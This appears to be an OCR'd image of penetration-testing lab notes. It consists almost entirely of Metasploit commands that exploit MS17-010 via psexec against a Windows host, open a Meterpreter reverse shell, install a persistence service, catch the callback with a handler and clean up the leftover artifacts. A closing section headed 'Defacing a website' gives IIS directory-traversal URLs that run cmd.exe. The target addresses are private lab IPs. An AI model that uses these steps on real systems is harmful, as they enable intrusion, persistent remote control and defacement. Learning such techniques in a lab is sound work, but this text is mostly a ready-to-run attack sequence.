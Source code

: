 use exploit/windows/smb/ms17_010_psexec

set payload windows/meterpreter/reverse_tcp

set rhosts 192.168.6.136

set lhost 192.168.6.128

set smbpass 1Password

set smbuser moo

show options

run

background

sessions

use exploit/windows/local/persistence_service

set payload windows/meterpreter/reverse_tcp

set session \<session ID\>

set lport 7777

exploit

\# Make note of the resource file

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost \<Kali IP\>

set lport 7777

run

\# Reboot Server2016

\# Log in as administrator

\# Verify that the handler receives a connection

\# At the meterpreter prompt type:

getuid

\# When done, at meterpreter prompt\> enter:

resource \<full path to resource file\>

\# Make note of the name of the remaining artifact in C:\Temp

\# Manually delete the final artifact in C:\Temp

DEFACING A WEBSITE

http://192.168.252.155/scripts/..%255c%255c../winnt/system32/cmd.exe?/c+dir+c:\\

http://192.168.252.155/scripts/..//../winnt/system32/cmd.exe?/c+dir+c:\\
